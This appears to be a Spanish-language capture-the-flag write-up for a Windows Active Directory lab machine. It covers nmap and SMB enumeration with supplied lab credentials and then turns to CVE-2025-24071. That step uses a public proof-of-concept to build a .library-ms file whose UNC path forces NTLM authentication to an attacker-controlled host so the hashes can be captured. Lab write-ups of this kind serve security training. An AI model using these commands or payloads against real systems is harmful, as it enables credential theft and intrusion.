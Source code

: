 #ActiveDirectory #windows #Easy 
# MACHINE INFORMATION

As is common in real life Windows pentests, you will start the Fluffy box with credentials for the following account: j.fleischman / J0elTHEM4n1990!
### ping

```python
❯ ping -c 1 10.10.11.69
PING 10.10.11.69 (10.10.11.69) 56(84) bytes of data.
64 bytes from 10.10.11.69: icmp_seq=1 ttl=127 time=129 ms

--- 10.10.11.69 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 128.552/128.552/128.552/0.000 ms
```

### nmap

```python
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-28 22:24:39Z)
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49685/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49686/tcp open  msrpc         Microsoft Windows RPC
49695/tcp open  msrpc         Microsoft Windows RPC
49700/tcp open  msrpc         Microsoft Windows RPC
49711/tcp open  msrpc         Microsoft Windows RPC
49723/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-05-28T22:25:26
|_  start_date: N/A
|_clock-skew: 6h59m58s
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 28 10:26:37 2025 -- 1 IP address (1 host up) scanned in 193.77 seconds
```

### Enumeración SMB 

### Rid-Brute

```python
❯ crackmapexec smb fluffy.htb -u j.fleischman -p 'J0elTHEM4n1990!' --rid-brute
```

![[Pasted image 20250528120635.png]]

Usando la --shares, enumeramos los derechos de acceso a los recursos compartidos SMB disponibles

```python
❯ nxc smb dc01.fluffy.htb -u 'j.fleischman' -p 'J0elTHEM4n1990!' --shares
```

![[Pasted image 20250528121206.png]]

Confirmamos el acceso de lectura y escritura a un recurso compartido personalizado llamado IT y descargamos todo con ==mget * .== 

![[Pasted image 20250528122155.png]]

el documento pdf hace referencia a algunos CVS conocidos que están parchados o que serán parchados próximamente
![[Pasted image 20250528122746.png]]

Este KeePass.exe.configarchivo es un archivo de configuración de aplicación .NET estándar, pero no expone las credenciales directamente.

![[Pasted image 20250528123035.png]]

  Sin embargo, esta línea en KeePass.exe.config: 

```python
xml
<loadFromRemoteSources enabled="true" />
```


…instruye al entorno de ejecución .NET para permitir la carga de ensamblados (DLL) desde ubicaciones remotas , incluidas: Rutas UNC ( \\attacker\share\malicious.dll) Unidades mapeadas Incluso ubicaciones basadas en la web (en versiones anteriores o casos mal configurados)

Normalmente, esto estaría bloqueado por la política de seguridad de .NET , a menos que esté permitido explícitamente como aquí. Esta configuración es una señal de alerta importante cuando un usuario extrae y ejecuta KeePass.exe desde un archivo ZIP, donde tenemos acceso de escritura . Esto sugiere claramente que el entorno está preparado para cargar algo desde una ubicación remota, un punto de partida clásico para el phishing de intranet mediante trucos de rutas SMB , señuelos de suplantación de identidad o cargas útiles de phishing enviadas mediante referencias a recursos compartidos de intranet . 

### CVE-2025-24071 Descripción general

Entre los CVE revelados en el PDF, el CVE-2025-24071 destaca por ser una coincidencia precisa con la configuración actual. Es un CVE reciente (si no recuerdo mal, hace unos meses leí el [[https://cti.monster/blog/2025/03/18/CVE-2025-24071.html]] CVE-2025-24071 es una vulnerabilidad de suplantación de identidad (spoofing) en el Explorador de archivos de Windows que permite a los atacantes capturar hashes NTLM con mínima interacción del usuario. La falla surge del procesamiento automático de .library-msarchivos del Explorador de archivos, que están basados ​​en XML y definen ubicaciones de bibliotecas.

### Suplantación de identidad (phishing) 
Primero, creamos el arma usando el repositorio PoC CVE-2025-24071 (o creamos uno manualmente, lo cual es bastante sencillo). Esto genera un .library-msarchivo diseñado para provocar la autenticación SMB en nuestro servidor controlado:

1. clonamos el repositorio
2. creamos un entorno virtual en python para poder operar de forma segura
3. activamos el entorno 
4. instalamos los requierements
5. ejecutamos el exploit


```python
❯ git clone https://github.com/ThemeHackers/CVE-2025-24071.git

❯ python3 -m venv venv

❯ source venv/bin/activate

❯ pip install -r requirements.txt

❯ python exploit.py -f Microsoft -i $10.10.14.133
```

![[Pasted image 20250528130756.png]]

esto creara un archivo xml parecido a este 

```python
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<searchConnectorDescriptionList>
<searchConnectorDescription>
<simpleLocation>
  <url>\\10.10.45.11\shared</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

El payload está dentro exploit.zip. ahora vamos a montar el recurso compartido y vamos a tener nuestro responder a la escucha

```pytho
![[Pasted image 20250528133736.png]]
```

![[Pasted image 20250528133557.png]]